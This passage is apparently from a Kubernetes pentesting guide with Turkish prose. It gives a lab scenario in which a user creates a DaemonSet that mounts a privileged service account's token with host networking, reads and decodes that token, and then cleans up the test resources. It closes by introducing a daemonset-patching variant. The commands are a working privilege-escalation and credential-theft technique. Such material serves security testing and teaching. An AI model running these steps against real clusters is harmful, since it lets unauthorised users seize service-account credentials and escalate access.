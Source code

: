 ```bash
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100000']"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default daemonset.apps/alpine -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete daemonset alpine
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```
### Patch Daemonset

Bu durumda, pod'unun istediğimiz hizmet hesabını yüklemesi için **bir daemonset'i yamalayacağız**.

